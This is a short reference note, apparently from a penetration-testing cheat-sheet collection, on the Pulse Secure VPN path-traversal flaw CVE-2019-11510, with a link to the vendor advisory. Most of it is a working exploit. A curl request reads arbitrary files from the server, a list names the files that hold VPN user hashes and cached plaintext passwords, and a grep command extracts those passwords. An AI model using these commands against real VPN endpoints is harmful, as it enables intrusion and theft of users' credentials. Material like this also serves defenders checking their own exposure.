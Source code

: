 Pulse Secure (CVE-2019-11510)
=============================


## Description

There is a `Path Traversal` vulnerability on `Pulse Secure` VPN endpoint:

```
curl --path-as-is -k -D- 'https://<hostname>/dana-na/../dana/html5acc/guacamole/../../../../../../etc/hosts?/dana/html5acc/guacamole/#'
```

You can grab the following files:
```
/data/runtime/mtmp/system
/data/runtime/mtmp/lmdb/dataa/data.mdb
/data/runtime/mtmp/lmdb/dataa/lock.mdb
/data/runtime/mtmp/lmdb/randomVal/data.mdb
/data/runtime/mtmp/lmdb/randomVal/lock.mdb
```

The VPN user and hashed passwords are stored in the `mtmp/system` file, but when
users log into the application, it caches the plain-text password into `dataa/data.mdb`.

```
grep 'password@9' data.mdb -a
```

## Link
[https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44101](https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44101)
